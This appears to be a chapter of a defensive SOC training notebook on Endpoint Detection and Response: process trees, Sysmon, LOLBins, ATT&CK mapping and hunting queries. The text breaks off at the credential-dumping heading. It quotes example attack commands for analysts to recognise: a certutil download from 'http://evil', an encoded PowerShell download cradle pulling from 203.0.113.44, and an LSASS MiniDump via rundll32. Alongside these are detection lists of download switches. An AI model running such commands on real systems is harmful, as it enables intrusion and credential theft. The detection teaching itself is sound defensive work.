






**Level:** Advanced · **Track:** SOC & Blue Team · **Read time:** 185 min

This is Chapter 11 of the SOC & Blue Team notebook. Chapter 10 gave you the network's view of an intrusion; this chapter gives you the endpoint's. When the network says "10.0.0.10 is beaconing," the very next question is *which process, launched by what, run by whom, is doing it* — and that question is answered on the host, by **Endpoint Detection and Response (EDR)**. EDR is the richest single telemetry source in a modern SOC: it records process executions, command lines, file and registry changes, network connections, and module loads, ties them into a **process tree**, and lets you both *detect* behaviourally and *respond* by isolating or remediating the machine remotely. Reading Windows events (Chapter 7) taught you the raw logs; EDR is the productised, correlated, response-capable evolution of that telemetry, and knowing how to drive it is a core Tier 1/Tier 2 skill.

We teach EDR from the ground up: the **telemetry model** and why the process tree is the analyst's primary artifact, how EDR differs from legacy antivirus, the **sensor architecture** (kernel vs user mode, ETW on Windows, eBPF on Linux) that lets EDR see what it sees, how **behavioural detections** work and map to **MITRE ATT&CK**, the step-by-step **investigation workflow** (alert → process tree → command line → parent/child → network → scope), **threat hunting** with EDR query languages (Microsoft Defender KQL, Splunk, and the vendor-neutral **osquery**), the **response actions** EDR gives you (isolate, kill, quarantine, remediate), and the **evasion/tamper** reality so you don't mistake silence for safety. A full hands-on lab walks a malicious-document → PowerShell → C2 chain across the endpoint.

The framing note: EDR runs on systems you own and are authorised to monitor and respond on. The techniques we investigate — LOLBins, injection, credential theft, persistence — are described so you can *detect and contain* them. Practise in your own lab (a Windows VM with Sysmon or a free EDR tier, plus an attack-range like DetectionLab/Splunk Attack Range) and on public datasets (EVTX-ATTACK-SAMPLES, Mordor/Security-Datasets), never on machines you don't control.

We build from the EDR telemetry model and the process tree, through EDR-vs-AV and sensor architecture, behavioural detection and ATT&CK mapping, the investigation workflow, threat hunting and query languages, response and remediation, evasion/tamper awareness, a full endpoint-investigation lab, the consolidated detection-and-defense angle, a final revision, a cheat sheet, and topic-specific practice.

---

## Part 1: What EDR Records — The Telemetry Model and the Process Tree

EDR agents instrument the operating system to emit a stream of **events** about what code does. The event classes are consistent across vendors (CrowdStrike Falcon, Microsoft Defender for Endpoint, SentinelOne, Carbon Black, Elastic/Wazuh, and the free Sysmon), and you must know them because every investigation is assembled from them:

| Event class | Records | Why it matters | ATT&CK it exposes |
|---|---|---|---|
| **Process creation** | new process: image path, command line, hashes, PID, **parent PID**, user, integrity | The backbone — every action is a process | Execution (TA0002) |
| **File** | create/write/delete/rename, path, hash | dropped payloads, staged data, ransomware | Persistence, Impact |
| **Registry** (Windows) | key/value create/modify/delete | persistence (Run keys), config, defense evasion | Persistence, Defense Evasion |
| **Network** | connection: local/remote IP:port, process | C2, exfil, lateral movement (with the owning process) | C2, Exfil, Lateral |
| **Image/module load** | DLL/driver loaded into a process | injection, unsigned drivers, side-loading | Defense Evasion, Priv Esc |
| **Authentication / logon** | logon type, user, source | account use, lateral movement | Lateral, Credential Access |
| **Named pipe / IPC** | pipe create/connect | injection, C2 frameworks (Cobalt Strike pipes) | Defense Evasion, C2 |
| **Script/AMSI** | script block content (PowerShell/JS) | fileless attacks, obfuscated payloads | Execution |

### The process tree — the analyst's primary artifact

The single most important thing EDR does is stitch process-creation events into a **tree** using parent/child (PPID → PID) relationships. Almost every investigation is "read the tree around the alert." An attack has a *shape* in the tree, and the shape is often more damning than any single event.



Read that tree and the story is obvious: Outlook → Word (a document) → cmd → PowerShell (encoded) → injection → C2. **Office spawning `cmd`/`powershell` is the canonical "macro/exploit ran" signal** — Word has no legitimate reason to launch a shell. This *parent-child anomaly* is the essence of behavioural EDR detection: it's not that `powershell.exe` is bad, it's that `WINWORD.EXE → powershell.exe -enc` is bad.

### Why command line is gold

Process-creation events capture the **full command line**, and that is where intent hides in plain sight. `powershell.exe` alone is neutral; `powershell.exe -nop -w hidden -enc SQBFAFgA...` (no-profile, hidden window, base64-encoded command) is an attack. Learn the suspicious switches: `-enc`/`-EncodedCommand`, `-nop`/`-NoProfile`, `-w hidden`/`-WindowStyle Hidden`, `-ep bypass`/`-ExecutionPolicy Bypass`, `IEX`/`Invoke-Expression`, `DownloadString`/`DownloadFile`, `FromBase64String`. On the endpoint, the command line + the parent = most detections.

---

## Part 2: EDR vs. Antivirus — Why the Shift Happened

Legacy antivirus (AV) and EDR are often confused. The distinction shapes how you use each.

| Dimension | Legacy AV | EDR |
|---|---|---|
| Detection basis | Signatures / hashes of *known* malware files | **Behaviour** + telemetry + signatures + ML |
| Unit of analysis | A file, scanned | A **sequence of actions** across processes |
| Fileless attacks | Largely blind (nothing on disk) | Sees the behaviour (PowerShell, injection, LOLBins) |
| Data retained | Little; a detection event | **Rich event history** for hunting & IR |
| Response | Quarantine/delete a file | **Isolate host, kill process, remediate, live-response shell** |
| Analyst workflow | "AV flagged X, delete it" | "Investigate the whole chain, scope it, contain it" |
| Visibility after miss | None | Retroactive hunting over stored telemetry |

The shift happened because attackers went **fileless** and **living-off-the-land**: they abuse built-in, signed binaries (**LOLBins** — `powershell`, `rundll32`, `regsvr32`, `mshta`, `certutil`, `wmic`, `bitsadmin`) so there's no malware file for AV to sign, and they inject into legitimate processes so there's nothing suspicious on disk. AV, which asks "is this file known-bad?", is blind to `certutil.exe -urlcache -f http://evil/x.exe` because `certutil` is a legitimate Microsoft binary. EDR, which asks "did a chain of actions look malicious?", catches it — `certutil` downloading an executable to a temp path, spawned by a script, is behaviourally obvious.

Modern products blur the line — most EDR includes AV (next-gen AV/NGAV) — but the mental model to carry is: **AV blocks known files; EDR detects malicious behaviour and lets you investigate and respond.** As an analyst you spend your time in the EDR console, reading trees and hunting, not managing AV signatures.

**LOLBins you must recognise on sight** (the LOLBAS project catalogs these):

| Binary | Legit purpose | Abused for |
|---|---|---|
| `powershell.exe` | Scripting | Download/execute, fileless payloads |
| `certutil.exe` | Certificate util | Download files, base64 decode payloads |
| `rundll32.exe` | Run DLL exports | Execute malicious DLLs, proxy execution |
| `regsvr32.exe` | Register DLLs | Squiblydoo (run remote scriptlet) |
| `mshta.exe` | Run HTA | Execute remote/inline HTA payloads |
| `wmic.exe` | WMI CLI | Execution, lateral movement, recon |
| `bitsadmin.exe` / BITS | Background transfer | Stealthy download + persistence |
| `msbuild.exe` | Build tool | Compile & run inline C# payloads |
| `mshta`, `cscript`, `wscript` | Script hosts | Run JS/VBS droppers |

---

## Part 3: Sensor Architecture — How EDR Sees What It Sees

To trust (and troubleshoot) EDR, you need a mental model of *how* the agent collects telemetry. This also explains what attackers try to tamper with.

### Where the sensor hooks

- **Kernel-mode components.** Serious EDR uses kernel drivers (on Windows, a minifilter driver + kernel callbacks like `PsSetCreateProcessNotifyRoutine`, `ObRegisterCallbacks`, and the newer **threat-intelligence** callbacks) to observe process creation, handle access, and image loads at a level user-mode malware can't easily hide from. Kernel visibility is why EDR sees injection and credential-dumping attempts that user-mode tools miss.
- **User-mode components.** An agent service correlates events, applies detections, talks to the cloud, and often injects a small user-mode module for API-level visibility (e.g., hooking specific APIs).
- **ETW (Event Tracing for Windows).** A high-throughput OS telemetry bus. EDR (and Sysmon) subscribe to ETW providers — notably **Microsoft-Windows-Threat-Intelligence** (kernel-level, sensitive API calls), PowerShell/script-block logging, DNS client, and WMI-activity providers. Much of Windows EDR richness is ETW.
- **AMSI (Antimalware Scan Interface).** Lets EDR/AV see script content *after* deobfuscation — PowerShell, VBScript, JScript, Office macros hand their decoded buffers to AMSI, which is how fileless/obfuscated payloads get caught despite encoding.
- **eBPF on Linux.** Modern Linux EDR uses **eBPF** to safely run sandboxed programs in the kernel that trace syscalls, process creation (`execve`), and network events with low overhead — the Linux analogue to ETW + kernel callbacks. (This is the productised cousin of the `auditd` telemetry from Chapter 8.)



### Why this matters to an analyst

- **Coverage gaps are architectural.** A process that starts before the sensor loads at boot, a machine where the agent crashed, or a syscall path the sensor doesn't hook can be a blind spot. Knowing the architecture tells you where telemetry might be missing.
- **Tampering targets the sensor.** Attackers try to unhook, blind, or kill the agent (Part 7). Understanding ETW/AMSI means you recognise **ETW patching** and **AMSI bypass** attempts as defense-evasion, and you monitor the sensor's own health as a detection.
- **Sysmon is the free on-ramp.** If you don't have commercial EDR, **Sysmon** (Chapter 7) plus a good config gives you most of the same event classes (process, network, image-load, registry, named-pipe, DNS) written to the Windows event log — enough to learn every workflow in this chapter.

### Sysmon event IDs — the free EDR telemetry map

Because most of this chapter's workflows can be practised with Sysmon alone, memorise the event IDs that mirror the EDR event classes. A well-tuned config (e.g. SwiftOnSecurity or Olaf Hartong's `sysmon-modular`) writes these to `Microsoft-Windows-Sysmon/Operational`:

| Sysmon ID | Event | EDR class it mirrors |
|---|---|---|
| 1 | Process creation (image, cmdline, hashes, parent, user) | Process creation |
| 3 | Network connection (with process) | Network |
| 5 | Process terminated | Process |
| 7 | Image/DLL loaded (signature, hashes) | Image load |
| 8 | CreateRemoteThread | Injection |
| 10 | ProcessAccess (handle to another proc, e.g. LSASS) | Credential access |
| 11 | File created | File |
| 12/13/14 | Registry add/set/rename | Registry |
| 15 | FileCreateStreamHash (ADS / MOTW) | File / evasion |
| 17/18 | Named pipe created/connected | IPC (C2 frameworks) |
| 22 | DNS query (with process) | Network/DNS |
| 23/26 | File delete (archived) | File (anti-forensics) |
| 25 | Process tampering (image replaced/hollowed) | Defense evasion |

### Reading a raw Sysmon Event ID 1

The process-creation event carries everything the process tree needs. Here is one (abbreviated), which is exactly what an EDR "process creation" event contains under the hood:

```text
EventID: 1  (Process Create)
UtcTime:        2027-02-21 09:05:29.114
ProcessId:      6120
Image:          C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
CommandLine:    powershell.exe -nop -w hidden -enc SQBFAFgAIAAoAE4AZQB3...
CurrentDirectory: C:\Users\jsmith\Documents\
User:           CORP\jsmith
IntegrityLevel: Medium
Hashes:         SHA256=908B64B1971A...  (powershell.exe - legit binary)
ParentProcessId:   5044
ParentImage:    C:\Windows\System32\cmd.exe
ParentCommandLine: cmd.exe /c powershell -nop -w hidden -enc SQBFAFgA...
```

**How to read it:** `ParentImage`/`ParentProcessId` link this node to its parent (`cmd.exe`, PID 5044) — climb that chain to reach `WINWORD.EXE` and the session root. `CommandLine` holds the intent (`-nop -w hidden -enc`). `IntegrityLevel: Medium` says it's a normal-user process (an elevation to High/System later would be privilege escalation). `Hashes` lets you confirm the *binary* is the real signed PowerShell (it is — the attack is the arguments, not a trojaned exe). Every EDR process event is a richer version of this; learning to read it on Sysmon transfers directly.

**Query Sysmon from PowerShell** (no EDR console needed):

```powershell
# Every Office-spawned shell in the Sysmon log
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -FilterXPath "*[System[EventID=1]]" |
  Where-Object { $_.Message -match "ParentImage.*(WINWORD|EXCEL|OUTLOOK)" -and $_.Message -match "Image.*(cmd|powershell|mshta)" } |
  Select-Object TimeCreated, Message

# Handles opened to LSASS (credential dumping, Sysmon EID 10)
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -FilterXPath "*[System[EventID=10]]" |
  Where-Object { $_.Message -match "lsass.exe" } | Select-Object TimeCreated, Message
```

---

## Part 4: Behavioural Detection and MITRE ATT&CK Mapping

EDR detections are mostly **behavioural rules** that fire on patterns of events, and they are almost always labelled with a **MITRE ATT&CK** technique. ATT&CK (introduced in Chapter 3) is the shared vocabulary that ties an alert to a known adversary behaviour and tells you what to look for next.

### How a behavioural detection is expressed

A detection is a logical condition over the telemetry. Examples, in plain terms:

- **Office spawns a shell:** `parent ∈ {WINWORD,EXCEL,POWERPNT,OUTLOOK}` **and** `child ∈ {cmd,powershell,wscript,cscript,mshta}` → **T1059** (Command & Scripting Interpreter), delivery via **T1566** (Phishing).
- **Encoded PowerShell:** `powershell.exe` command line contains `-enc`/`-EncodedCommand` → **T1059.001** + **T1027** (Obfuscation).
- **Credential dumping:** a process opens a handle to `lsass.exe` with read/`VM_READ` access, or `rundll32 comsvcs.dll MiniDump` → **T1003.001** (LSASS Memory).
- **Persistence via Run key:** write to `HKCU\...\CurrentVersion\Run` → **T1547.001**.
- **LOLBin download:** `certutil -urlcache -f http://... x.exe` / `bitsadmin /transfer` → **T1105** (Ingress Tool Transfer).
- **Suspicious parent for `rundll32`/`regsvr32` with a remote scriptlet** → **T1218** (System Binary Proxy Execution).

### Reading an EDR alert

A good EDR alert gives you: the **technique (ATT&CK ID)**, the **process tree** context, the **command line**, the **user and host**, a **severity**, and often a **why** (which rule/behaviour fired). Your job on receiving it:

1. **Confirm the behaviour** — is the command line/tree actually malicious, or a benign admin/software action that looks like it? (An IT script using `certutil` legitimately, for instance.)
2. **Map it** — the ATT&CK technique tells you the adversary's *goal* and what commonly comes *before* and *after* it (the tactic sequence), which guides your next pivots.
3. **Scope it** — is this one host or many? One user or the domain?



**Why ATT&CK mapping is practical, not academic:** if an alert is tagged **T1003 (Credential Access)**, you immediately know to check for *lateral movement* next (the attacker dumped creds to move), and to prioritise — credential access is a serious mid-kill-chain step. The technique ID turns an isolated alert into a position on the kill chain, and that position tells you where to look.

---

### From a single detection to ATT&CK coverage

Individual behavioural rules are tiles; **ATT&CK gives you the whole board**, so a SOC measures its EDR not by "how many rules" but by *which tactics and techniques it can actually see*. A typical intrusion walks left-to-right across the tactics, and your detections should light up along the way:

```mermaid
flowchart LR
    IA[Initial Access<br/>T1566] --> EX[Execution<br/>T1059]
    EX --> PE[Persistence<br/>T1547/53]
    PE --> PV[Priv Esc<br/>T1068/T1055]
    PV --> DE[Defense Evasion<br/>T1562/T1027]
    DE --> CA[Credential Access<br/>T1003]
    CA --> DI[Discovery<br/>T1087/T1018]
    DI --> LM[Lateral Movement<br/>T1021]
    LM --> CO[Collection<br/>T1005/T1560]
    CO --> C2[Command & Control<br/>T1071]
    C2 --> EXF[Exfiltration<br/>T1041]
    EXF --> IM[Impact<br/>T1486]
```



The practical value: when you catch an alert in the *middle* of this chain (say Credential Access, T1003), you know both directions to hunt — *back* toward how they executed and gained persistence, and *forward* toward lateral movement and impact they may already be attempting. A mature team maps its detection rules onto the **ATT&CK Navigator** heatmap, sees which techniques are green (covered) vs. white (blind), and drives detection engineering (Chapter 12) to fill the gaps.

### EDR product landscape (so vendor differences don't confuse you)

The concepts are universal; the schemas and names differ. You'll encounter:

| Product | Query surface | Note |
|---|---|---|
| Microsoft Defender for Endpoint | KQL (Advanced Hunting: `Device*Events`) | Deep Windows/ETW integration, ASR rules |
| CrowdStrike Falcon | Event Search / CQL, Falcon LogScale | Cloud-native, kernel sensor |
| SentinelOne | Deep Visibility query | Behavioural AI storyline (auto-built tree) |
| Carbon Black (VMware) | Process/Enriched search | Long history retention |
| Elastic Security / Wazuh | KQL/EQL / Wazuh rules | Open-source-friendly, Sysmon/eBPF |
| Sysmon + SIEM | SPL / KQL / EQL over Sysmon | Free; the learning platform |

Whichever you use, you're always doing the same thing: querying process/file/registry/network/module events, reading the tree, and pivoting on command lines and IOCs. Learn the *model*, and any console becomes readable in a day.

## Part 5: The Endpoint Investigation Workflow

This is the core operational skill. Given an EDR alert (or a lead from the network, Chapter 10), you work a repeatable sequence. We'll use a phishing-to-C2 alert as the running example and formalise the steps.

### The workflow

1. **Read the alert** — technique, host, user, timestamp, the flagged process and command line.
2. **Open the process tree** — the alerting process, its **parent chain up to the session root** (how did we get here?), and its **children** (what did it do?).
3. **Scrutinise command lines** at each node — decode any `-enc` base64, expand LOLBin arguments, note downloaded URLs/paths.
4. **Follow file activity** — what did these processes write/read? (dropped payloads, staged archives, touched credential stores).
5. **Follow network activity** — what did they connect to? (C2 IPs/domains — cross-reference Chapter 10's NSM findings and threat intel).
6. **Follow persistence** — Run keys, scheduled tasks, services, WMI subscriptions created around the same time.
7. **Determine impact** — did it run? did it succeed? was data/credentials accessed? did it spread?
8. **Scope** — hunt the IOCs (hashes, IPs, command-line patterns) across *all* endpoints to find every affected host.
9. **Contain & remediate** — isolate host(s), kill/quarantine, remove persistence, reset exposed credentials.
10. **Document** — timeline, IOCs, ATT&CK techniques, actions taken (feeds Chapter 13's incident record).

### Quickly separating true positives from benign look-alikes

Much of the workflow's speed comes from ruling things *out* fast. The same behaviours that attackers use are used by legitimate software and admins, so build a mental checklist of "is there an innocent explanation?":

| Behaviour | Benign explanation to check | Confirms malicious if… |
|---|---|---|
| `powershell.exe` running | IT/management scripts, SCCM, monitoring | encoded/hidden, parent is Office/browser, downloads from a rare IP |
| `certutil` downloading | admin cert operations | fetching an `.exe`/`.dll` to Temp, spawned by a script |
| PsExec / WMI remote-exec | sysadmin remote management | run by a non-admin/service account, fanning out to many hosts |
| Handle to LSASS | AV/EDR itself, `wininit`, `services` | opened by rundll32/procdump/an Office child |
| New scheduled task/service | software install, patching | payload in `Temp`/`AppData`, created right after suspicious execution |
| Signed binary from `AppData` | some legit updaters | unsigned, random name, network beacon |

The tell is almost always **context**: *who* ran it (user/parent), *from where* (path), *to what* (network), and *when* (right after another suspicious event). A benign `certutil` is run by an admin from an admin session; a malicious one is spawned by `powershell.exe` that was spawned by `WINWORD.EXE`. When in doubt, walk the tree — the parent chain usually settles it in seconds.

### Decoding encoded commands (you'll do this constantly)

```bash
# A captured PowerShell -enc value is base64 of UTF-16LE. Decode it:
echo 'SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQA...' | base64 -d | iconv -f UTF-16LE -f UTF-8
# -> IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.44/a')
```

That one step frequently turns "an encoded PowerShell alert" into "a download-cradle pulling a payload from a specific C2 URL" — the intent, laid bare. (In the EDR console you'd use its built-in decoder or AMSI-captured script block; on raw logs you decode by hand.)

### Reconstructing the process tree by hand (when the console won't)

EDR consoles draw the tree for you, but you should be able to rebuild it from raw process events — during IR you often work from exported Sysmon/EDR logs, not a live console. The logic is: each process has a `PID` and a `ParentPID`; join children to parents. A quick illustration over exported CSV/JSON of process events:

```bash
# processes.tsv columns: time  pid  ppid  user  image  cmdline
# 1) find the alerting PID's parent chain (walk UP to the session root)
pid=6120
while [ "$pid" != "0" ] && [ -n "$pid" ]; do
  line=$(awk -F'\t' -v p="$pid" '$2==p' processes.tsv)
  echo "$line"
  pid=$(echo "$line" | awk -F'\t' '{print $3}')   # move to the parent
done
# 6120  5044  jsmith  powershell.exe  powershell -nop -w hidden -enc ...
# 5044  4802  jsmith  cmd.exe         cmd /c powershell ...
# 4802  3900  jsmith  WINWORD.EXE     WINWORD.EXE /n invoice.docm
# 3900   712  jsmith  OUTLOOK.EXE     OUTLOOK.EXE
```

```bash
# 2) find everything the alerting PID spawned (walk DOWN to impact)
awk -F'\t' -v parent=6120 '$3==parent {print}' processes.tsv
# 6120 -> 6340 rundll32.exe  rundll32 ...\a.dll,Start
```

Walking **up** from the alert gives you initial access (Outlook→Word→…); walking **down** gives you impact (…→rundll32→C2). That two-directional read is the whole investigation in miniature, and doing it by hand once makes every console tree instantly legible. **IR use case:** on an air-gapped or console-less triage, this join over exported events is exactly how you rebuild the story.

### The parent chain answers "how did they get in?"

Walking *up* from the alert is as important as walking down. If the flagged `powershell.exe`'s parent is `WINWORD.EXE`, initial access was a malicious document (phishing — pivot to Chapter 9). If the parent is `w3wp.exe`/`httpd`, it was a web exploitation / webshell (pivot to Chapter 8's web logs). If the parent is `services.exe` or a scheduled task, you may be looking at persistence executing, not initial access — meaning the attacker was already resident. **The parent tells you which earlier chapter's evidence to go pull.**

---

## Part 6: Threat Hunting With EDR Query Languages

Alerts are reactive; **hunting** is proactively querying the stored telemetry for malicious patterns no rule fired on. Every EDR exposes a query language; you must be able to write hunts in at least one, and the concepts transfer.

### Microsoft Defender for Endpoint — KQL (Advanced Hunting)

Defender's telemetry is queryable with **KQL** (the same language as Sentinel, Chapter 5). The tables mirror the event classes from Part 1: `DeviceProcessEvents`, `DeviceNetworkEvents`, `DeviceFileEvents`, `DeviceRegistryEvents`, `DeviceImageLoadEvents`, `DeviceLogonEvents`.

```kusto
// Office apps spawning a shell — the canonical macro-execution hunt
DeviceProcessEvents
| where InitiatingProcessFileName in~ ("winword.exe","excel.exe","powerpnt.exe","outlook.exe")
| where FileName in~ ("cmd.exe","powershell.exe","wscript.exe","cscript.exe","mshta.exe")
| project Timestamp, DeviceName, AccountName, InitiatingProcessFileName, FileName, ProcessCommandLine
| sort by Timestamp desc
```

```kusto
// Encoded PowerShell across the fleet
DeviceProcessEvents
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_any ("-enc","-EncodedCommand","FromBase64String","-w hidden","bypass")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```

```kusto
// LSASS access (credential dumping) — handle to lsass by a non-system process
DeviceEvents
| where ActionType == "OpenProcessApiCall"
| where FileName =~ "lsass.exe"
| where InitiatingProcessFileName !in~ ("wininit.exe","services.exe","msmpeng.exe")
| project Timestamp, DeviceName, InitiatingProcessFileName, InitiatingProcessCommandLine
```

```kusto
// A specific C2 IP from the network team — which hosts/processes talked to it?
DeviceNetworkEvents
| where RemoteIP == "203.0.113.44"
| project Timestamp, DeviceName, InitiatingProcessFileName, InitiatingProcessCommandLine, RemotePort
```

### Splunk (Sysmon/EDR data) — SPL

```text
index=sysmon EventCode=1 ParentImage IN ("*\\winword.exe","*\\excel.exe","*\\outlook.exe")
    Image IN ("*\\cmd.exe","*\\powershell.exe","*\\mshta.exe")
| table _time host User ParentImage Image CommandLine
```

```text
index=sysmon EventCode=1 Image="*\\powershell.exe" (CommandLine="*-enc*" OR CommandLine="*hidden*" OR CommandLine="*bypass*")
| stats count values(CommandLine) by host User
```

### osquery — the vendor-neutral endpoint query tool (from scratch)

**What it is:** **osquery** (open-source, by Meta) exposes the operating system as a **relational database** you query with SQL. It doesn't stream events like EDR by default, but it lets you ask *live* questions across a fleet ("which hosts have this file/registry key/listening port/running process right now?") — invaluable for hunting and scoping, and completely free.

**Install:** `sudo apt install osquery` (or the vendor packages for Windows/macOS). Run `osqueryi` for an interactive shell.

```sql
-- Running processes and their command lines + parent
SELECT p.pid, p.name, p.path, p.cmdline, pp.name AS parent
FROM processes p LEFT JOIN processes pp ON p.parent = pp.pid;

-- Processes with a network connection to a suspect IP (scoping C2)
SELECT p.name, p.pid, po.remote_address, po.remote_port
FROM process_open_sockets po JOIN processes p ON po.pid = p.pid
WHERE po.remote_address = '203.0.113.44';

-- Windows autoruns / persistence surfaces
SELECT name, path, source FROM autoexec;        -- scheduled tasks, run keys, services

-- Unsigned binaries running from temp/appdata (staging tell)
SELECT name, path FROM processes WHERE path LIKE 'C:\Users\%\AppData\%';
```

Deployed with a scheduler (osquery's daemon + a config, or Fleet/Kolide as a manager), osquery becomes a fleet-wide hunting and IR-scoping tool: one query answers "which of my 5,000 machines has this IOC," which is exactly what containment (Part 8) needs.



### Velociraptor — open-source endpoint DFIR at scale (from scratch)

**What it is:** **Velociraptor** is a free, open-source endpoint visibility and DFIR platform. Where osquery answers point-in-time SQL questions, Velociraptor runs **VQL (Velociraptor Query Language)** "artifacts" — reusable collectors — across a whole fleet to hunt, collect forensic evidence (registry, MFT, prefetch, browser history, event logs), and monitor endpoints continuously. It's the go-to when you need real DFIR reach without a commercial EDR budget, and it's widely used in IR engagements.

Typical uses in an investigation:

```text
# Hunt the fleet for a process by name/hash (VQL artifact)
SELECT Name, Pid, CommandLine, Hash FROM pslist() WHERE Name =~ "rundll32"

# Collect persistence surfaces from every endpoint at once
Artifact: Windows.Persistence.PermanentWMIEvents
Artifact: Windows.System.Services
Artifact: Windows.Registry.RunKeys

# Pull the raw evidence (prefetch, event logs, $MFT) for deep forensics
Artifact: Windows.KapeFiles.Targets   # KAPE-style triage collection
```

**Why it matters:** during the scoping and evidence-collection phases (Part 8), Velociraptor lets you sweep hundreds of hosts for an IOC and *collect* the forensic artifacts you need before reimaging — the DFIR muscle behind "scope the fleet" and "preserve before you wipe." Pair it with osquery (live state) and your EDR (streamed detections) and you have full endpoint coverage.

### A few more high-value hunts

```kusto
// rundll32/regsvr32 with a remote scriptlet or odd DLL from a user path
DeviceProcessEvents
| where FileName in~ ("rundll32.exe","regsvr32.exe")
| where ProcessCommandLine has_any ("http","\\AppData\\","\\Temp\\","scrobj.dll","/i:")
| project Timestamp, DeviceName, FileName, ProcessCommandLine

// Newly created services running from unusual paths
DeviceProcessEvents
| where FileName =~ "sc.exe" and ProcessCommandLine has "create"
| where ProcessCommandLine has_any ("\\Temp\\","\\AppData\\","\\ProgramData\\")

// certutil / bitsadmin downloading (ingress tool transfer)
DeviceProcessEvents
| where FileName in~ ("certutil.exe","bitsadmin.exe")
| where ProcessCommandLine has_any ("urlcache","-f http","/transfer","http://","https://")
```

---

## Part 6b: Reading Attack Techniques as Endpoint Telemetry

To investigate fluently you must recognise what common techniques *look like* in EDR data. Here are the ones a Tier 1/2 analyst meets most, each with its telemetry signature and a hunt.

### Process injection (T1055)

Malware injects code into a legitimate process to hide. The telemetry: a `CreateRemoteThread` (Sysmon EID 8) or a suspicious memory-write/handle from process A into unrelated process B, often followed by network activity from the *victim* process.

```kusto
DeviceEvents
| where ActionType in ("CreateRemoteThreadApiCall","WriteToLsassProcessMemory","ProcessInjection")
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, InitiatingProcessCommandLine
```

**Tell:** `explorer.exe` or `svchost.exe` suddenly beaconing, when the *injector* was a script or an Office child, is classic hollowing/injection — the network-owning process and the malicious parent don't match.

### Credential dumping (T1003)

